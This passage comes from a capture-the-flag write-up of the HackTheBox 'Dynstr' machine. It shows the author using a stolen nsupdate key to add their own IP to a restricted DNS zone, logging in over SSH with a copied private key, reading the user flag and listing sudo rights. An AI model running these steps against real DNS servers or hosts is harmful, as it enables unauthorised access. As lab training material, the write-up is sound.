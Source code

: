 ## NS Update

Everything now falls in to place. We have the public and private key for the bindmgr user. We have authorized_key file that requires us to connect from the infra.dyna.htb zone. We have the infra.key file containing the secret needed to perform an nsupdate.

So we just need to add our Kali IP in to the infra DNS zone so we can connect via SSH. To do this we use [nsupdate](https://linux.die.net/man/8/nsupdate) which we saw earlier in the update script:

```text
www-data@dynstr:/etc/bind$ nsupdate -k infra.key
nsupdate -k infra.key
> update add pencer.infra.dyna.htb 86400 A 10.10.14.214
> 
> update add 214.14.10.10.in-addr.arpa 86400 PTR pencer.infra.dyna.htb
> show
Outgoing update query:
;; ->>HEADER<<- opcode: UPDATE, status: NOERROR, id:      0
;; flags:; ZONE: 0, PREREQ: 0, UPDATE: 0, ADDITIONAL: 0
;; UPDATE SECTION:
214.14.10.10.in-addr.arpa. 86400 IN     PTR     pencer.infra.dyna.htb.

> send
> quit
```

## User Flag

Switch back to Kali and we should be able to login using the private key we copied across earlier:

```text
┌──(root💀kali)-[~/htb/dynstr]
└─# ssh -i id_rsa bindmgr@dyna.htb
The authenticity of host 'dyna.htb (10.10.10.244)' can't be established.
ECDSA key fingerprint is SHA256:443auWJe5iDH5JBCq/9ir4ToxZ5PTzTv7XvRSYrz0ao.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'dyna.htb,10.10.10.244' (ECDSA) to the list of known hosts.
Last login: Tue Jun  8 19:19:17 2021 from 6146f0a384024b2d9898129ccfee3408.infra.dyna.htb
bindmgr@dynstr:~$ 
```

We can grab the user flag we saw earlier now:

```text
bindmgr@dynstr:~$ cat user.txt 
<HIDDEN>
```

## Bindmgr Script

Ok, first a few things to look at, if nothing obvious stands out we can grab LinPEAS. I usally check sudo first:

```text
bindmgr@dynstr:~$ sudo -l
sudo: unable to resolve host dynstr.dyna.htb: Name or service not known
Matching Defaults entries for bindmgr on dynstr:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User bindmgr may run the following commands on dynstr:
    (ALL) NOPASSWD: /usr/local/bin/bindmgr.sh
```
